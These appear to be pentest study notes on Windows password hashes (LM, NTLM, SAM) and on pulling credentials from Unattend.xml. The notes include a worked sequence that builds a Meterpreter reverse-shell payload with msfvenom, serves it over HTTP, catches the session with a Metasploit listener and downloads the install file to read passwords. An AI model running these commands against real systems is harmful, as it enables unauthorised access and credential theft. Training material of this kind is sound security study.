 - Version up to win server 2003 utilize two different types of hashes
  - - LM (LanMan)
  - - NTLM

### SAM

- SAM is a db file that is responsable for maning user acc and passwords on Windows.

- SAM cannot be copied while OS is running, attackers utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.

- In modern versions of Windows, SAM db is encrypted with a syskey.

### LM (LanMan)

- The protocol is used to hash user pass, and the hashing process can be broken down into:
  - - The pass is broken into two seven-character chunk.
  - - All characters are then converted into UPPERCASE.
  - - Each chunk is then hashed separately with the DES algorithm.

### NTLM (NTHash)

- Is a collection of auth protocols that are utilized in windows to facilitate auth between computers. Involves creds to successfully auth.

- Windows disables LM hashing and utilizes NTLM hashing

- Allows the use of symbols and unicode chars.

```bash
C:\Windows\Panther\Unattend.xml

C:\Windows\Panther\Autounattend.xml
```

### Searching Passwords in config file

Kali - bash

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=kali_ip LPORT=1234 -f exe > payload.exe

python -m http.server 80
# GET PAYLOAD
# File already transfer

# Before exec create a meterpreter session

msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST target
set LPORT 1234
run # Listeting

#meterpreter session after execute payload
sysinfo
cd C:\Windows\Panther
download unattend.xml

# bash, This file contains configurations windows instalation
# Scroll to find password, username
cat unattend.xml

```
